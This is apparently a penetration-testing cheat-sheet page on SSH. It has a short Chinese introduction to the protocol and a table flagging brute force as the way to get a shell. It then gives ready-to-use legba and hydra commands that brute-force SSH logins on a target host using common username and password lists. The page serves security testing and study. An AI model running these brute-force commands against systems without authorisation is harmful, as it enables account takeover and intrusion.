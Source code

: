 # SSH

<details>

<summary>Introduction</summary>

SSH（Secure Shell Protocol）是一种加密的网络协议，用于安全地在两台计算机之间进行远程登录和数据传输。它提供了加密的通信会话，使得用户可以在不安全的网络中安全地管理远程设备和执行命令。SSH广泛应用于远程服务器管理、文件传输和安全通信等领域。

</details>

<table><thead><tr><th width="178">Name</th><th>SSH (Secure Shell Protocol)</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>22</td></tr><tr><td><strong>GetShell?</strong></td><td>Yes</td></tr><tr><td><strong>Vulnerability</strong></td><td>Brute Force</td></tr></tbody></table>

## Brute Force

If the SSH service has been authenticated, you can use tools like [legba](https://github.com/evilsocket/legba) and [hydra](https://github.com/vanhauser-thc/thc-hydra) for brute force.

{% code title="Environment" %}
```bash
HOST=; PORT=22; # TARGET HOST INFO
DICT_PATH=~/hack/dicts/hack-dict; # LOCAL DICT PATH
```
{% endcode %}

{% code title="Use Legba" %}
```bash
docker run \
  -v $DICT_PATH:/hack-dict \
  -v $(PWD):/out \
  --network host -it --rm \
  evilsocket/legba:latest \
  ssh --target $HOST:$PORT \
  --username /hack-dict/username/top10.txt \
  --password /hack-dict/darkweb2017-top100.txt \
  -O /out/legba-ssh-outptu.txt
```
{% endcode %}

{% code title="Reference Docs" %}
```
https://github.com/evilsocket/legba
https://github.com/evilsocket/legba/wiki/Installation-and-Building
https://github.com/evilsocket/legba/wiki/Usage-and-Main-Options
https://github.com/evilsocket/legba/wiki/SSH-and-SFTP
```
{% endcode %}

{% code title="Use Hydra" %}
```bash
hydra -l root -P $DICT_PATH/test-10.txt -t 4 ssh://$HOST:$PORT
```
{% endcode %}

{% code title="Reference Docs" %}
```
https://github.com/vanhauser-thc/thc-hydra
```
{% endcode %}
